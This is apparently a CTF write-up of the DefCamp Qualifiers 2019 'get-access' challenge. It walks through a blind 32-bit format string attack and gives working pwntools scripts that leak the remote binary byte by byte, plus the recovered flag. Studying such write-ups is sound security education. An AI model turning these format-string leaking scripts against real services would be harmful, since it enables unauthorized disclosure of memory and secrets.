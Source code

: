 ```yaml
---
layout: post
title:  "DefCamp Qualifiers 2019: get-access"
date:   2019-09-08 17:00:00 +0800
categories: pwn
tags: DefCamp-Qualifiers-2019
---
```


A classic blind format string challenge where you had to dump the entire binary to get the flag.

### Challenge

* **Category:** pwn
* **Points:** 123
* **Solves:** 64

> Can you pwn this?
>
>
> Target: 206.81.24.129:1337
>
> Author: Andrei

### Solution

Before continuing, I highly suggest watching [LiveOverflow's video of the ESPR challenge from 33c3ctf](https://www.youtube.com/watch?v=XuzuFUGuQv0) if you aren't familiar with blind format string attacks. That is basically a harder version of this challenge and uses a 64-bit binary, whereas this challenge incorporates a 32-bit binary.

To start with, right off the bat we see a format string vulnerability in the `username` field. The `password` is what shows up on the stack (unaligned) at the second half of the 5th offset and onwards.

```c
vagrant@ubuntu-bionic:/ctf/pwn-and-rev/defcamp-2019/pwn/get-access$ nc 206.81.24.129 1337
You must login first before get the flag
Enter username:0x%x 0x%x 0x%x 0x%x 0x%x 0x%x 0x%x 0x%x
Enter password:AAAABBBBCCCCDDDD
0xffd9dc76 0x2a 0x8ec2008 0x0 0x4141dd14 0x42424141 0x43434242 0x44444343 does not have access!
```

So we know we can control the 6th offset by padding our password input with two characters before it. What that means is if we enter the password `BBAAAA`, we should see `0x41414141` at `%6$x`.

```c
vagrant@ubuntu-bionic:/ctf/pwn-and-rev/defcamp-2019/pwn/get-access$ nc 206.81.24.129 1337
You must login first before get the flag
Enter username:0x%6$x
Enter password:BBAAAA
0x41414141 does not have access!
```

I also check to make sure we actually have a 32-bit binary (the `0xffxxxxxx` address in the first offset is a dead giveaway) by also trying with `%lx` instead of just `%x`. `%lx` prints out 64-bit addresses.

```c
vagrant@ubuntu-bionic:/ctf/pwn-and-rev/defcamp-2019/pwn/get-access$ nc 206.81.24.129 1337
You must login first before get the flag
Enter username:0x%lx 0x%lx 0x%lx 0x%lx
Enter password:
0xff99e676 0x2a 0x8b44008 0x0 does not have access!
```

Since it still prints out 32-bit addresses, we know the binary is 32-bit. We can know that ASLR is enabled because the address at offset one always changes each time. We also know that 32-bit libc addresses usually start with `0xff` so long as PIE is disabled.

Knowing all of this, and the fact that we have a blind format string, the one thing we know is that all 32-bit linux binaries have a base address `0x08048000`. What we can then do is start at that address and dump out the binary byte by byte. Note that this ***ONLY*** works if PIE is disabled, as otherwise the base address of the binary would be randomized as well.

What we want to do is instead of putting `0x41414141` into `%6$x`, we want to put `0x08048000` into `%6$x`, and then dump the binary by doing `%6$s` which will dereference `0x08048000`. A quick test shows that it works.

```python
#!/usr/bin/env python2

from pwn import *

p = remote('206.81.24.129', 1337)

p.sendlineafter(':', '%6$s')
p.sendlineafter(':', 'AA' + p32(0x08048000))

print p.recvline()
```
```c
vagrant@ubuntu-bionic:/ctf/pwn-and-rev/defcamp-2019/pwn/get-access$ ./exploit.py
[+] Opening connection to 206.81.24.129 on port 1337: Done
\x7fELF does not have access!

[*] Closed connection to 206.81.24.129 port 1337
```

It successfully prints out `\x7fELF` which are the four bytes every single Linux ELF binary starts out with.

Now we just write a script that will dump bytes from the binary out starting at the base address `0x08048000`, then move the address up by the number of bytes dumped, then rinse and repeat. However there are some issues that we have to deal with when dumping the binary this way.

* Since we are exploiting a format string vulnerability here, remember that `printf` will keep printing until it sees a NULL byte, but won't print out the NULL byte itself. This means that we must include our own NULL byte after each leak, so that when we increase the current address by the number of bytes dumped, `printf` doesn't get stuck on the NULL byte that it doesn't print out. If we don't do this, `printf` gets stuck in an infinite loop where it stays stuck on the address that contains a NULL byte forever.

* The second problem is that `fgets` or `scanf` or whatever the binary is using to take in user input will stop at newlines. What this means is that when we do `%6$s` in the username, if the format string ends up dereferencing it and finding a `\n`, then the input function will stop there even if there is more data to leak after the newline. My solution to this isn't the best, but what I did was just take the leak, and if it contains any newline characters, just change the leak to a NULL byte. It causes the binary to be slightly corrupted but remember, we aren't trying to run the binary here. We should just be able to figure out how to exploit it using the code.

The following script does the job:
```python
#!/usr/bin/env python2

from pwn import *

HOST, PORT = '206.81.24.129', 1337
context.log_level = 'critical'

base = 0x08048000 # base addr of 32 bit binaries without PIE

while True:
    leak = "" # Set leak to an empty string
    with open("output.raw", "a") as f:
        p = remote(HOST, PORT)
        p.sendlineafter(':', '%6$s') # (base + len(leak)) is at offset 6, so %6$s is used
        p.sendlineafter(':', 'AA' + p32(base + len(leak))) # Padding required to place the address right
        leak = p.recvuntil('does')[:-5] + '\x00' # Must add NULL byte otherwise printf will hang
        p.close()

        # Must also replace newlines with \x00, it will cause the binary to be slightly corrupted
        # which doesn't matter because the flag is in the .bss segment for this binary
        if '\n' in leak:
            leak = "\x00"

        # Write to file
        f.write(leak)
        print leak.encode('hex') + " @ " + hex(base)
        base += len(leak)
```

After running this binary for around 5-10 minutes (I didn't keep count), I checked the binary with `xxd` and saw this.
```c
vagrant@ubuntu-bionic:/ctf/pwn-and-rev/defcamp-2019/pwn/get-access$ xxd output.raw
00000000: 7f45 4c46 0101 0100 0000 286e 756c 6c29  .ELF......(null)
00000010: 0000 0300 0100 0000 c085 0408 3400 0000  ............4...
....
....
00000a70: 0000 0000 0000 0059 6f75 206d 7573 7420  .......You must
00000a80: 6c6f 6769 6e20 6669 7273 7420 6265 666f  login first befo
00000a90: 7265 2067 6574 2074 6865 2066 6c61 6700  re get the flag.
00000aa0: 456e 7465 7220 7573 6572 6e61 6d65 3a00  Enter username:.
00000ab0: 456e 7465 7220 7061 7373 776f 7264 3a00  Enter password:.
00000ac0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000ad0: 0000 0046 6c61 6720 6973 3a20 4443 5446  ...Flag is: DCTF
00000ae0: 7b42 4438 4336 3634 4537 3445 4239 3432  {BD8C664E74EB942
00000af0: 3232 3545 4642 3734 4346 4437 3645 4334  225EFB74CFD76EC4
00000b00: 4232 4644 4130 4333 3741 3244 3536 3742  B2FDA0C37A2D567B
00000b10: 3730 3741 4131 3430 3737 3831 4646 3737  707AA1407781FF77
00000b20: 467d 0000 006f 6573 206e 6f74 2068 6176  F}...oes not hav
00000b30: 6520 6163 6365 7373 2100 0001 1b03 3b38  e access!.....;8
00000b40: 0000 0006 0000 0084 f9ff ff54 0000 007f  ...........T....
00000b50: fbff ff78 0000 0091 fbff ff98 0000 00b9  ...x............
00000b60: fbff ffb8 0000 0064 feff fff4 0000 00c4  .......d........
00000b70: feff ff40 0100 0014 0000 0000 0000 0001  ...@............
00000b80: 7a52 0001 7c08 011b 0c04 0488 0100 0020  zR..|..........
00000b90: 0000 001c 0000 0028 f9ff fff0 0000 0000  .......(........
00000ba0: 0e08 460e 0c4a 0f0b 7404 7800 3f1a 3b2a  ..F..J..t.x.?.;*
00000bb0: 3224 221c 0000 0040 0000 00ff faff ff12  2$"....@........
00000bc0: 0000 0000 410e 0885 0242 0d05 4ec5 0c04  ....A....B..N...
00000bd0: 0400 001c 0000 0060 0000 00f1 faff ff28  .......`.......(
00000be0: 00
```

Opening the output file in `vim` gives us the flag.

Flag: `DCTF{BD8C664E74EB942225EFB74CFD76EC4B2FDA0C37A2D567B707AA1407781FF77F}`
